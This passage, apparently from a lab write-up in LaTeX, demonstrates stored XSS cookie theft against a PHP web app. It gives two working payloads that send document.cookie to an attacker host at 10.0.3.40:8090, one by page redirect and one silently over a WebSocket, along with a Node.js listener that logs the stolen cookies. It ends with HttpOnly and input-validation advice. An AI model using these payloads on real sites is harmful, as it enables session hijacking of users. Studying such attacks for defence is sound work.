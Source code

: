 	In order to steal the cookie we need to send the following message:
	\begin{lstlisting}
		<img src=1 hidden onerror=" document.location='http://10.0.3.40:8090/stealer?v='+document.cookie;">
	\end{lstlisting}
	
	
	The cookie is sent over, so the malevolent server is capable of stealing it.\newline
	
	\begin{lstlisting}
		//
		var http = require('http');
		
		var server = http.createServer(function (req, res) {
			console.log("Cookie retrived:"+req.url);
			res.end('! HACKED !');
		})
		
		server.listen(8090,'10.0.3.40');
	\end{lstlisting}
	
	
	The output of the server is something like:
	
	\texttt{Cookie retrived:/stealer?v=PHPSESSID=vcqqs219ns7b4naui67bmug}.\newline
	
	Opening a new WebSocket will not give you the cookie, in fact the cookie can be sent over if the host is the same of the web page, and our malevolent server is likely to be on a different address, using the \texttt{document.cookie} in order to create a false cookie is not that easy because the browser avoid the creation of cookie related to other domains.
	But it is possible to send the cookie via WebSocket with a simple invocation of the send(…) method, in fact with this script it is possible to trick a client:
	
	\begin{lstlisting}
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8090/'); badws.onopen=function(event){ var tmp=document.cookie;badws.send(tmp);}">
	\end{lstlisting}

	
	The malevolent WebSocket code is equal to the other just seen before; it simply receives the cookie and stores it.\newline
	This approach is better because it is silent; the previous one was easy to notice by a user simply because the page in front of him changed.\newline
	Note: this is a special because the cookie used by PHP via JavaScript, there are case where a Cookie cannot be retrieved by \texttt{document.cookie} and this does not allow an attacker to steal precious data from a client.
	In order to avoid the retrieval of a cookie by JavaScript, it must be marked with \texttt{HttpOnly} flag.
	Remember that even if you store data in the \texttt{SessionStorage} you are not safe at all because an attacker could access it.
	With these two examples is clear how data validation is important and must be performed in order to avoid serious attack.
	
